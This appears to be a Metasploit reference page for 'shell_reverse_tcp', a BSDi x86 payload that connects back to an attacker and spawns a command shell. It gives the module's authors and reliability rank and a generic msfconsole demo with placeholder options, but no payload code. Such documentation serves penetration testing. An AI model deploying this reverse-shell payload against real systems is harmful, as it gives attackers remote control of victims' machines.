 ## BSDi Command Shell, Reverse TCP Inline

Connect back to attacker and spawn a command shell


## Module Name
payload/bsdi/x86/shell_reverse_tcp

## Authors
* skape
* optyx





## Platforms
bsdi

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/bsdi/x86/shell_reverse_tcp
msf payload(shell_reverse_tcp) > show targets
   ... a list of targets ...
msf payload(shell_reverse_tcp) > set TARGET <target-id>
msf payload(shell_reverse_tcp) > show options
   ... show and set options ...
msf payload(shell_reverse_tcp) > run
```
    
    